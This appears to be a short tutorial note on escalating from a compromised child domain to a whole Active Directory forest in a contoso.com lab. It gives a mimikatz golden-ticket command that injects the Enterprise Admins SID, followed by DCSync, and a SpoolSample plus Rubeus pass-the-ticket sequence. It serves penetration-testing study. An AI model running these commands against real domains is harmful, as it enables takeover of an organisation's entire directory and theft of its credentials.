 **INTRA-FOREST EXPLOTATION CONCEPT ACLARATION:**

By saying intra-forest explotation I mean owning the others domain in your current forest. For example the contoso.com is the root domain of the contoso.com forest, however the prod.contoso.com is a subdomain in the contoso.com forest, and so on. As it's logical, trust exists between domains(and also between forests). In our lab, exists a bidirecctional trust between the prod.contoso.com and the contoso.com domain(also known as parent-child trust).

**EXTRA SIDS:**

Let's assume we have compromised completly our current domain(prod.contoso.com), however we want to compromise the entire forest. To do so, we will take advantatge of the Enterprise Admins group, this group is essentially like a Domain Admin(only applies to one domain) group but Enterprise Admin applies to all the forest.

To create a golden ticket with extraSIDs(in this case enterprise admins) with the krbtgt passwd hash:

`kerberos::golden /user:h4x /domain:origin-domain /sid:SID-of-origin-domain /krbtgt:krbtgt_passwdhash /sids:SID_of_target_domain-519 /ptt`

(The user specified does not need to exist, the default SID for enterprise admins group ends in -519)
Then DcSync. The DcSync will work since the trust between prod.contoso.com and contoso.com is bidirecctional. Meaning that the KDC from contoso.com trusts the KDC from prod.contoso.com

**PRINTERS:**

First force an authentication with SpoolSample to obtain a TGT from another domain(contoso.com), then import that TGT with rubeus and then dcsync.

Forcing the auth with spoolsample:

`.\SpoolSample.exe rdc01.contoso.com appsrv01.prod.contoso.com`

Importing the ticket with Rubeus:

`Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...`
